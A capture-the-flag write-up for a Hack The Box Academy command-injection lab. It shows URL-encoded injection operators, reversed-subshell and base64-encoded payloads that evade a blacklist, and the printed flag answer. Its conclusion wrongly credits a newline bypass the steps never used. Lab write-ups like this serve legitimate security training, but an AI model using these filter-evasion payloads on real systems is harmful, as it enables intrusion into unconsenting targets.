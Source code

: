 # Write-up: Command Injections

| Vulnerability | Difficulty | Platform | Key concepts |
| :--- | :--- | :--- | :--- |
| Command Injections | Medium | Hack The Box Academy | Command Injection Detection, Bypass Blacklisted Commands |

---

# Context

You are contracted to perform a penetration test for a company, and through your pentest, you stumble upon an interesting file manager web application. As file managers tend to execute system commands, you are interested in testing for command injection vulnerabilities.

Use the various techniques presented in this module to detect a command injection vulnerability and then exploit it, evading any filters in place.

# Exercise

What is the content of '/flag.txt'?

# Process

## Step 1 "Search potential attack"
Navigating through all the web, I found that moving a file from one folder to another makes a GET call, so we can try to use these fields to inject our commands.
![Found potential attack by moving files](./assets/possible_vector_attack.png "Moved files from one folder to another")

## Step 2 "Try to inject a command"
Let's try first to inject a command using Burpsuite, in this case we are gonna use `; whoami` but urlencoded will be `%3b+whoami`.
![Trying to inject a whoami command](./assets/malicious_request_denied.png "Malicious request to whoami command")
As we can see, the backend shows "Malicious request denied!", that means that something is blacklisted and we will need to encounter an operator that is not in that list.

## Step 3 "Bypass blacklisted operators"
There are several operators that we can use, we can try all of them to see which one is accepted.
| Injection Operator | Injection Character | URL-Encoded Character |
| :--- | :--- | :--- |
| Semicolon | ; | %3b |
| New Line | \n | %0a |
| Background | & | %26 |
| Pipe | \| |%7c |
| AND | && | %26%26 |
| OR | \|\| | %7c%7c |
| Sub-Shell | `` | %60%60 |
| Sub-Shell | $() | %24%28%29 |
![Testing background operator](./assets/background_operator.png "Tested background operator and encounter a valid vector attack")
In this case with the Background `&` operator we got a response that is not detected as malicious, we can use that to inject or commands.

## Step 4 "Inject a command"
Since we already know that we can't use commands directly because there is a black list, let's try to avoid writing all of them in the right way, we can use a subshell and send the command in reverse, this way we can bypass blacklisted words.
![Injecting ID command with a reverse subshell](./assets/from_injection.png "Injected ID command with a reverse subshell with a wrong response")

In this first try we executed the command but we got `id: '/var/www/html/files/tmp`, so this means that the command in the backend is being executed with the `from` parameter first.
```bash
mv /var/www/html/files/{from} /var/www/html/files/{to}
```
If we insert our command in `from`, the command will be in the middle and we will need to ignore the rest of them, so we need inject the command in the `to` parameter, this way we will have the following:
```bash
mv /var/www/html/files/51459716.txt /var/www/html/files/tmp&id
```
![Successfully injected an ID command](./assets/found_injection.png "Got a successful response from ID command in the \"to\" parameter")

## Step 5 "Get files from target folder"
Now we need to get all the files from `/` folder, let's try to use `ls /` with a small change because we can't use an space because is blacklisted, this time we will use a tab `%09` instead, now our command will be `ls%09/` this command will be send in the reverse shell and we can us it to get what is inside the folder.
![Trying to inject an ls command with reverse subshell](./assets/first_try_ls.png "Trying ls command but got a malicious request denied message")

This command was detected as a Malicious request, so let's try to use the same command but converted to base64.
```bash
delmed@my-computer ~ % echo -n 'ls /' | base64 
bHMgLw==
```
Which can be used in the command injecton with a subshell using `bash<<<$(base64%09-d<<<bHMgLw==)`, this will decode the command as `ls /`.
![Using "ls /" with base64](./assets/found_flag.png "After converting the command \"ls\" to base64 and decoding with a subshell I got a good response with all files from \"/\"")


## Step 6 "Read flag"
Now we can read the flag using the same approach, we can convert the command `cat /flag.txt` to base64 and decode it with a subshell.
```bash
delmed@my-computer ~ % echo -n 'cat /flag.txt' | base64
Y2F0IC9mbGFnLnR4dA==
```
![Found flag](./assets/flag.png "Found flag with command \"cat /flag.txt\" encoded to base64")

## Result
```
HTB{c0mm4nd3r_1nj3c70r}
```

# Conclusion
This box was a lesson in multi-stage exploitation. After finding a command injection and bypassing an initial filter with a newline (%0a), I discovered an asymmetrical WAF. The final flag capture required advanced payload obfuscation, using Base64 encoding and a tab character (%09) to successfully evade detection.
